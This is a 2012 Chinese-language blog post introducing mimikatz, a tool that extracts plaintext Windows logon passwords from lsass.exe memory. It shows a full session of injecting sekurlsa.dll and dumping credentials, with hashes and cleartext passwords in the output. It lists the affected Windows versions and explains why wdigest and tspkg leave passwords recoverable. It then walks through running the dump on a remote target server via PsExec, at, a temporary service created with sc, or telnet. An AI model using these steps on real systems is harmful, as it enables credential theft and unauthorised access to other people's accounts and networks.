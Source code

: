 ```yaml
---
author: admin
comments: true
date: 2012-02-25 02:09:54+00:00
layout: post
slug: password-tools-mimikatz
title: 神器mimikatz
wordpress_id: 911
categories:
- 工具
---
```


法国佬写的一款工具，可以抓取windows明文密码。


> mimikatz 1.0 x86 (pre-alpha) /* Traitement du Kiwi */

mimikatz # privilege::debug
Demande d'ACTIVATION du privilège : SeDebugPrivilege : OK

mimikatz # inject::process lsass.exe sekurlsa.dll
PROCESSENTRY32(lsass.exe).th32ProcessID = 488
Attente de connexion du client...
Serveur connecté à un client !
Message du processus :
Bienvenue dans un processus distant
Gentil Kiwi

SekurLSA : librairie de manipulation des données de sécurités dans LSASS

mimikatz # @getLogonPasswords

Authentification Id : 0;434898
Package d'authentification : NTLM
Utilisateur principal : Gentil User
Domaine d'authentification : vm-w7-ult
msv1_0 : lm{ e52cac67419a9a224a3b108f3fa6cb6d }, ntlm{ 8846f7eaee8fb117ad06bdd830b7586c }
wdigest : password
tspkg : password

Authentification Id : 0;269806
Package d'authentification : NTLM
Utilisateur principal : Gentil Kiwi
Domaine d'authentification : vm-w7-ult
msv1_0 : lm{ d0e9aee149655a6075e4540af1f22d3b }, ntlm{ cc36cf7a8514893efccd332446158b1a }
wdigest : waza1234/
tspkg : waza1234/


经测试，通杀：
Windows Server 2003
Windows Server 2008
Windows Vista
Windows 7
Windows 7 SP1
貌似只有 Windows 2000 与 Windows XP 无法使用。 不过，2000/xp 可以用以前的 FindPassword ，Windows 2003 - Windows 7 微软的这个处理机制没有变。 域也可以，理论上是没问题的，登录过都在 lsass.exe 里面。

**原理**


> 原理就是登陆的时候输入的密码，经过 lsass.exe 里的 wdigest 和 tspkg 两个模块调用后，它们对之进行加密处理，而没有进行擦除，而且该加密通过特征可以定位，并且按照微软的算法可逆。只要登陆过，就可以抓出来，它进行枚举的，这一切都是微软的错。 也就是说，开机以后，只要是登陆过的用户，在没重启前（因为重启内存就清零了，这里不包括使用其他方法清理内存），都可以抓出来，注销也是无用的，因为内存中的密码并没有清除，所以还是可以抓出来的。
这应该算是密码泄露，很严重的漏洞，估计微软会出补丁。


**在远程终端（3389、mstsc.exe）、虚拟桌面中抓取密码的方法**

通常你在远程终端中运行该程序会提示：存储空间不足，无法处理此命令。
这是因为在终端模式下，不能插入远线程，跨会话不能注入，将以下文件打包后上传至目标服务器，然后解压释放，注意路径中绝对不能有中文（可以有空格）！否则加载DLL的时候会报错：找不到文件。


> mimikatz_trunktoolsPsExec.exe
mimikatz_trunkWin32mimikatz.exe
mimikatz_trunkWin32sekurlsa.dll


然后使用以下任何一种方法即可抓取密码：


> //最简单实用的方法，使用 PsExec.exe 启动。
//在本机启动交互式命令提示窗口
psexec \127.0.0.1 cmd.exe
//启动 mimikatz.exe
C:mimikatz_trunkWin32mimikatz.exe
//提升权限
privilege::debug
//注入dll，要用绝对路径！并且路径中绝对不能有中文（可以有空格）！
inject::process lsass.exe "C:mimikatz_trunkWin32sekurlsa.dll"
//抓取密码
@getLogonPasswords
//退出，不要用 ctrl + c，会导致 mimikatz.exe CPU 占用达到 100%，死循环。
exit

//*********************************************************

//使用 At 启动
at ***

//*********************************************************

//创建服务方法
sc create getpassword binpath= "cmd.exe /c c:xxxmimikatz.exe < command.txt > password.txt"
sc start getpassword
sc delete getpassword

//*********************************************************

//telnet 远程命令管道
telnet ****


原文见:
http://blog.gentilkiwi.com/mimikatz
参考链接：
http://lcx.cc/?FoxNews=2265.html
http://hi.baidu.com/hackercasper/blog/item/b080dbd05eb6a5cc562c8461.html
